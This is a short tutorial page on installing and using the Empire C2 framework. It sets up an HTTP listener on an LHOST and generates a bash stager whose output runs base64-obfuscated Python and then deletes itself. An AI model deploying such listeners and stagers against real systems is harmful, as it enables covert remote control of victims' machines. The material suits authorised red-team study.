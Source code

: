 ```yaml
---
title: Empire
description: Empire C2 introduction.
---
```


# Empire

## Installation

### Using Empire (CLI)

1. Pull **Empire** docker image : `docker pull bcsecurity/empire:latest`
2. Run **Empire** docker (in background) : `docker run -it -p 1337:1337 -p 5000:5000 -d bcsecurity/empire:latest`
3. List dockers running :

```bash
$ docker ps
CONTAINER ID   IMAGE    ...
27aaeb4e935a   bcsecurity/empire:latest   ...
```

4. Run **Empire** client on the docker : `docker exec -it 27aaeb4e935a ./ps-empire client`

### Using Empire x Starkiller (GUI)

1. Download **Starkiller** AppImage from [release](https://github.com/BC-SECURITY/Starkiller/releases/).
2. Pull **Empire** docker image : `docker pull bcsecurity/empire:latest`
3. Run **Empire** docker : `docker run -it -p 1337:1337 -p 5000:5000 bcsecurity/empire:latest`
4. Login on **Starkiller** : URL : `https://localhost:1337`, username : `empireadmin`, password : `password123`.

## Usage

### Empire (CLI)

Offical docs and examples, [link](https://github.com/BC-SECURITY/Empire-Cli).

Setup an HTTP listener :

```bash
(Empire) > uselistener http
[...]
(Empire: uselistener/http) > set Name listener1
[*] Set Name to listener1
(Empire: uselistener/http) > set Host 10.50.193.153 # LHOST
[*] Set Host to 10.50.193.153
(Empire: uselistener/http) > set Port 4444 # LPORT
[*] Set Port to 4444
(Empire: uselistener/http) > execute
[+] Listener http successfully started
(Empire: uselistener/http) > back
(Empire) > listeners # List all listeners

Id Name         ...
1  listener1    ...

(Empire: listeners) > kill listener1 # kill <NAME>
```

Setup a stager :

```bash
(Empire) > usestager multi/bash # multi/launcher
[...]
(Empire: usestager/multi/bash) > set Listener listener1
[*] Set Listener to listener1
(Empire: usestager/multi/bash) > execute
#!/bin/bash
echo "import sys,base64,warnings;warnings.filterwarnings('ignore');exec(base64.b64decode('aW1wb3J0IHN...'));" | python3 &
rm -f "$0"
exit
(Empire: usestager/multi/bash) > back
(Empire) >
```